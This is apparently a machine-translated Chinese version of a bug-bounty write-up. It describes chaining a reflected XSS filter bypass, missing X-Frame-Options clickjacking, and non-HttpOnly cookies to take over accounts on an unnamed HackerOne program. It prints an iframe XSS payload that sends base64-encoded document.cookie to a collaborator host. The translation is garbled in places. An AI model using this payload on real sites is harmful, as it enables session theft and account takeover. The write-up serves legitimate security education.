


# 低级错误和错误配置链导致帐户被接管

> 原文：<https://infosecwriteups.com/chain-of-low-level-bugs-and-misconfigurations-leads-to-account-takeover-de248fc4e481?source=collection_archive---------2----------------------->

你好，猎人们。我要告诉你一个关于我最近发现的故事，在这个故事中，我能够将导致我**接管**任何账户的几个错误配置串联起来。我将把这个网站称为**“rededited . com”**，因为它是 HackerOne 上的一个私人程序。让我们开始吧。

# 步骤 1 —反射 XSS

我在我的目标的子域中导航，在深入应用程序之前寻找有趣的功能。过了一会儿，我偶然发现了一个页面，可以让我通过标题搜索一篇博客文章。简而言之，这是一个经典的搜索框。我注意到，每次我在搜索框中输入一些文本，它都会以 path 的形式反映到 URL:

> sub.redacted.com/search/{TEXT_HERE}

正如我们大多数人会做的那样，我立即扔掉了几个 XSS 有效载荷，但没有运气，我的有效载荷正在被消毒。这似乎是一个定制的旁路系统，没有任何晶圆的迹象。这就是为什么我决定深入研究，并试图绕过消毒。经过多次试验和错误，当我把**小于号'< '** 替换成它的 HTML 实体形式也就是**&lt；**我的有效载荷成功发射。

XSS 有效载荷成功发射

# 第 2 步—单击劫持

一切似乎都运转得天衣无缝，对吗？不完全是。我期望当我点击链接时有效负载会被触发，但是它没有。搜索文本就在我输入的地方，但它没有被触发。受害者必须手动点击“搜索”按钮才能发射有效载荷。我在 Burp Suite 中查看了我的日志，发现有一个适当的 CSRF 保护机制。我尝试了很多方法试图绕过它，但我无法成功。在我的日志中来回查看时，我注意到**“X-Frame-Options”**丢失了，这意味着子域容易被点击劫持，这意味着该站点可以嵌入到任何带有 iframe 的站点中。

# 步骤 3 —提高影响力并执行 ATO

一切都很好，但影响力不够高。在考虑提高影响的方法时，我意识到 cookies 缺少 HttpOnly 标志，这意味着可以使用 JavaScript 访问它们。

愉快的

我用它将受害者的 cookie 作为查询参数附加到 URL 的末尾。更多细节见下文。我在我的网站上托管的最终有效载荷看起来差不多是这样的:

> <html>
> iframe src =**https://sub.redacted.com/search/&lt；% 20 img % 20 src = x % 20 on error = location . href = % 22 https:% 26 sol；% 26sol{ COLLABORATOR _ URL } % 26sol% 26questq = % 22+btoa(document . cookie)；% 26gt**>
> </iframe>
> </html>
> 
> 以上 URL 的解码版本:
> **https://sub.redacted.com/search/**

不过，这一步需要详细说明。

## btoa()是什么？

在 JavaScript 中，btoa()基本上是一种用 base64 编码字符串的方法。我为什么需要这个？嗯，我没打算这么做。在飞行中，我意识到我看不到所有的 cookie，因为 cookie 中的一些字符被过滤了。这样，当我检查我的服务器日志时，我能够检索 base64 编码形式的所有 cookies。

## 执行接管

我不打算详细解释如何进行点击劫持攻击。理解让用户点击一个按钮是小菜一碟就足够了。当受害者点击按钮时，我们得到 base64 值。

现在怎么办？我是否只需解码该值，用我的 cookies 替换它，工作就完成了？的确如此。

干杯。

# 外卖食品

*   当您设法找到一个反射的 XSS 时，尝试通过将它与其他错误(如 CSRF、缓存中毒等)联系起来来升级严重性。)
*   低级错误和错误配置可能会在增加影响方面发挥关键作用，即使它们在报告时几乎没有价值。不要忽视他们！

这是我的第一篇文章。我希望这能对你有所帮助。

你可以在推特上关注我。 [@pleorqy](https://twitter.com/pleorqy)